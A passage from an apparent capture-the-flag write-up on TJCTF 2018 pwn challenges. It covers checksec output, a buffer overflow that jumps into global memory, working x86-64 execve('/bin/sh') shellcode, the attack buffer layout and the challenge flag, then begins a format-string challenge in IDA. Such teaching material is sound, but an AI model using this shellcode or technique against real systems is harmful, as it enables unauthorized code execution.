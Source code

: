     [littlewho@sweethome tjctf2018]$ checksec problem
    [*] '/home/littlewho/ctfs/tjctf2018/problem'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x400000)
        RWX:      Has RWX segments

It does not have any stack canary or any other execution prevention, so the solution is straightforward. The **name** array is global so it is stored in the **BSS** section and we know its address: 0x6010A0. We could store our shellcode here and then use the overflow to jump here.

    ; execve(["/bin/sh",], [], [])

    bits 64
        push 0x68
        mov rax, 0x732f2f6e69622f2f
        push rax
        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        xor r10, r10
        mov rax, 0x3b
        syscall

Compile it as raw binary using **nasm** in order to easily use it. The layout of the attack vector is:

    4 chars for PIN + 13 bytes to fill the buffer and the RBP + RIP

![Running the exploit](https://cdn-images-1.medium.com/max/2000/1*xJn5jD9ReniOoQ21SPMZDQ.png)*Running the exploit*

Flag: **tjctf{d4n6_17_y0u_r0pp3d_m3_:(}**

Full solution: [https://github.com/JustBeYou/ctfs/blob/master/tjctf2018/problem.py](https://github.com/JustBeYou/ctfs/blob/master/tjctf2018/problem.py)

### Secure Secrets

Challenges until now were pretty easy, the real fun starts now. Don’t get scary, they are still easy, but they need a little bit more amount of work than others as we don’t have the source code anymore and we need to do format string exploitation.

![Running the application](https://cdn-images-1.medium.com/max/2000/1*Gsslm7YmAduWdkBxAc1u2A.png)*Running the application*

This is how the application looks. It just reads a password and a message then shows the message. Let’s open the binary in IDA Pro (or Hopper). Both of them could generate pseudo-code of the program (press F5 in IDA or search in top menu of Hopper), but for now let’s analyze some Assembly.

We don’t see any buffer overflow, but the following code from **get_message()** looks interesting:

    .text:0804885D                 mov     eax, [ebp+arg_0]
    .text:08048860                 mov     [ebp+var_2C], eax

    ...
